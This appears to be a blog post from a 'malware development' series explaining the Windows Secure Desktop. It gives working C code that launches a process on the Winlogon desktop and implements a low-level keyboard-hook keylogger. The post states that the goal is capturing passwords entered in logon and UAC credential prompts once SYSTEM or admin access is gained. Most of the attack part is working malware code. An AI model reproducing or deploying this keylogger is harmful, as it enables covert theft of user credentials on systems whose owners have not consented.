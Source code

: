 ```yaml
---
title: Malware development part 7
layout: post
---
```


## Introduction
This is the seventh post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Today we will talk about "Secure Desktop" on Windows and implement a keylogger.

## Secure Desktop
Secure Desktop is Windows feature that isolates system processes' graphical interface elements (like windows, prompts etc.). Basically it's a different desktop with access limited to system integrity processes.

If UAC is configured to use Secure Desktop (`ConsentPromptBehaviorUser = 1` and `ConsentPromptBehaviorAdmin = 1 || 2`), consent and credential prompts are presented on this desktop. This protects these prompts from malicious code running with user privileges. Also, `Winlogon` process, which handles user logon, run on this desktop.

Actually, `CreateProcess` API function allows to create a process assigned to any desktop (given the appropriate permissions are present) with `STARTUPINFO` parameter. It goes like this:

```c
STARTUPINFOA startupInfo;
ZeroMemory(&startupInfo, sizeof(startupInfo));
startupInfo.cb = sizeof(startupInfo);
PROCESS_INFORMATION processInfo;
ZeroMemory(&processInfo, sizeof(processInfo));

char desktop[] = "WINSTA0\\WINLOGON";
startupInfo.lpDesktop = desktop;

CreateProcessA(currentProcessPath, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &startupInfo, &processInfo);
```

`WINSTA0\DEFAULT` is the default desktop and `WINSTA0\WINLOGON` is the Secure Desktop.

## Keylogger
A regular keylogger running with low user privileges won't be able to access the Secure Desktop. However if we can elevate to SYSTEM, we will be able to run the keylogger code in the `WINLOGON` desktop.

Typical keylogger use `SetWindowsHookEx` API with `WH_KEYBOARD_LL` hook type which monitors low-level keyboard input events. This function sets a callback function which is called on every event, in this case every keyboard input. Also, low-level hooks use message loop, which is a feature used by windows (GUI) applications to communicate.

From information passed to the hook function we can extract key status - what key was pressed or released. `WM_SYSKEYUP` and `WM_SYSKEYDOWN` messages are posted when a key is pressed while holding `Alt` key.

```c
LRESULT CALLBACK KeyboardHook(int nCode, WPARAM wParam, LPARAM lParam)
{
	KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
	int msg = 1 + (kbdStruct.scanCode << 16) + (kbdStruct.flags << 24);
	char keyName[64];
	GetKeyNameTextA(msg, keyName, 64);
	char keyState[16];
	switch (wParam)
	{
	case WM_KEYUP:
	strncpy(keyState, "Key Up\0", 16);
		break;
	case WM_KEYDOWN:
	strncpy(keyState, "Key Down\0", 16);
		break;
	case WM_SYSKEYUP:
	strncpy(keyState, "Sys Key Up\0", 16);
		break;
	case WM_SYSKEYDOWN:
	strncpy(keyState, "Sys Key Down\0", 16);
		break;
	}
	printf("Captured: %s \t %s\n", keyName, keyState);
	return CallNextHookEx(0, nCode, wParam, lParam);;
}

int main()
{
	SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardHook, NULL, 0);
	while (GetMessageA(0, 0, 0, 0));
}
```

And that's about it:

![winlogon_keylogger.png](../images/2021-01-29-Malware_development_part_7/winlogon_keylogger.png)

## Summary
With admin access on a Windows machine we can run a keyloggen on `Winlogon` desktop to capture passwords on the Secure Desktop.
